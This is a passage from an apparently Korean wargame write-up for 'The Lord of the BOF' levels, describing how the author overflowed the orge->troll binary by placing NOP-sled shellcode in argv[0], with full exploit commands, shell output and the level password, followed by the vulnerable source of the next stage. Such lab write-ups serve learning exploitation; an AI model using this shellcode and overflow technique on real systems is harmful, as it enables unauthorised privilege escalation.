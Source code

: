 argv[1] 사이즈 검사가 있는데 인자는 argv[1]까지 밖에 가질 수가 없다.... 으아아아 하다가 argv[0]이 남았다는 걸 깨달았다. 파일 이름을 쉘코드로 바꾸면 되는데, 자꾸 안되서 으어어어 하다가 결국 solve 찾아봣다. 다행히 내가 시도하던 방법이 맞긴 하더라.

다만 내가 쓰던 쉘코드는 \x2f가 포함되어 있었는데, \x2f는 `\` 라서 이걸 파일이름으로 사용하면 디렉토리로 읽는다던가 뭐 그런 이유때문이었다. 그래서 걍 다른 사람 쉘코드를 가져옴.



```shell
[orge@localhost orge]$ mv troll ./`python -c 'print "\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`

[orge@localhost orge]$ ./`python -c 'print "\x90"*200+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` `python -c 'print "A"*40 + "\x28\xf9\xff\xbf" + "\x08\xfa\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA(
bash$ id
uid=507(orge) gid=507(orge) euid=508(troll) egid=508(troll) groups=507(orge)
bash$ my-pass
euid = 508
aspirin
```





## STAGE 9 : troll -> vampire

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);
}
```
